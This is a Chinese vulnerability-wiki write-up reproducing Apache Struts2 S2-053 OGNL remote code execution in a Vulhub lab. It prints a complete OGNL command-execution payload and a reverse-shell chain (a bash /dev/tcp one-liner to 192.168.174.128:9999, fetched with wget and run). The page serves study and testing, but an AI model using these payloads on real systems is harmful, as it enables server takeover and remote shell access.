




# Apache Struts2 S2-053 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受控值进入非字面量FreeMarker标签属性再OGNL求值；声明分支范围需官方核对
- 证据范围：双层求值描述方向正确但没有展示危险模板，只有表单payload和图片。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 不是只要使用FreeMarker就漏洞，需给模板属性/输入绑定条件
- Struts2.5范围止2.5.10待核，缺对应修复/CVE
- 变成离开一个表达式为文字损坏；末尾换行必要性未解释
- 上传/执行shell payload全部仅图片，缺实际请求和状态证据
- 清空安全排除集合/文件持久副作用未说明

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 漏洞影响

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub 执行以下命令启动 s2-053 测试环境：

```shell
docker-compose build
docker-compose up -d
```

环境运行后，访问 `http://your-ip:8080/hello.action` 即可看到一个提交页面。

## 漏洞复现

Struts2 在使用 Freemarker 模板引擎的时候，同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析，但由于被 Freemarker 解析一次后变成离开一个表达式，被 OGNL 解析第二次，导致任意命令执行漏洞。

输入如下 Payload 即可成功执行命令（注意 Payload 末尾有一个换行）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```




### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：




执行 shell.sh 文件的命令为：

```shell
bash shell.sh
```

执行 shell.sh 文件的 Payload 为：




成功接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
